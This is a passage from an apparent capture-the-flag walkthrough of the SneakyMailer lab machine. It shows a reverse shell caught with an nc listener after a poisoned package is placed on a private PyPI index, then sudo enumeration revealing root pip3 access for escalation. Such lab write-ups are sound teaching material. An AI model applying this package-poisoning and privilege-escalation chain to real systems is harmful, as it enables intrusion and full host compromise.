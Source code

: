 ```

```

If I hurry and load `http://pypi.sneakycorp.htb:8080/simple`, the package is listed:

![image-20200713071533459](https://0xdfimages.gitlab.io/img/image-20200713071533459.png)

It disappears very quickly (it seems low is quick to react and clean up). But a few seconds later, `nc` receives a connection with a shell as low:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.197.
Ncat: Connection from 10.10.10.197:56400.
$ id
uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)

```

And low can access `user.txt`:

```

$ cat user.txt
13164fcd************************

```

## Priv: low –> root

### Enumeration

Listing commands low can run as other users with `sudo -l` shows the next step very clearly:

```

low@sneakymailer:/$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3

```

### sudo pip
